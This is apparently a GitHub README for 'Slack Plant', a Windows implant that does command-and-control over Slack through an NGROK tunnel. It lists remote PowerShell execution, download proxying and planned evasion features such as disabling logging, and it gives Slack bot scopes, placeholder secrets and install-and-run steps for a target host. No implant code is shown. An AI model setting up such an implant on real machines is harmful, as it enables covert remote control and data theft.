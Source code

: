 # Slack Plant

Slack Plant is a Windows implant that performs C2 over slack via an NGROK tunnel.

## Currently Implemented Features:
- Download proxy through implanted host (uploads downloaded file to slack)
- Run PowerShell commands on implanted host -> output to slack
- Automatically open an NGROK tunnel and update the callback link on slack

## Planned Features
- Download files from implanted host
- Upload files to implanted host
- Disable logging and debug servers for better tradecraft
- Check-in with slack upon successful connect
- Run NGROK from memory instead of on disk
- Check if chromedriver exists, if not download chromedriver to chrome directory
- Expand supported OSs (*nix, MacOS, etc.)
- Add helper scripts to build a single PE for specified target

## Prerequisites
- Create a custom app in the [slack API](https://api.slack.com/) with the following Bot Token Scopes:
    - `channels:history`
    - `channels:read`
    - `chat:write`
    - `files:read`
    - `files:write`
    - `groups:history`
    - `groups:read`
    - `groups:write`
    - `im:history`
    - `im:read`
    - `im:write`
    - `incoming-webhook`
    - `links:read`
    - `links:write`
    - `mpim:history`
    - `mpim:read`
    - `mpim:write`
    - `remote_files:share`
    - `remote_files:read`
    - `remote_files:write`
- Enable Incoming Webhooks and add one for your app
- Enable Event Subscriptions and subscribe to message.channels, message.groups, message.im, and message.mpim
- Install on the workspace of your choice

## Installation

### On Target
Requires Python 3.7+

Either modify the script with the appropriate options or set the following environment variables:
```
SLACK_BOT_TOKEN=xoxb-1111111111111-1111111111111-11AAAAAAaaaaAAAAaaaaA # Token from OAuth & Permissions page in your slack app
SLACK_SIGNING_SECRET=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa # Secret from Basic Information page in your slack app
SLACKBOT_WORKSPACE=example # Where workspace is example.slack.com/
SLACKBOT_USER=me@example.com # Your slack username for the workspace above
SLACKBOT_PASS=******** # Your slack password for the workspace above
SLACKBOT_APP=https://api.slack.com/apps/AAAAAAAAAAA # The link to your slack app 
NGROK_AUTH_TOKEN=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa # Your auth token from ngrok.com - OPTIONAL
```

These steps need to take place on the target prior to being implanted:
```
#place chromedriver in same directory as Slack Plant
git clone https://github.com/jonebeabout/slackplant.git
pip3 install -r requirements.txt
python3 slackplant.py &
```

### On Operator Workstation
You may be able to compile necessary binaries on your operator workstation using pyinstaller or similar prior to implanting the target.
This is currently untested.

## License
[GNU GPLv3](https://www.gnu.org/licenses/gpl-3.0.en.html)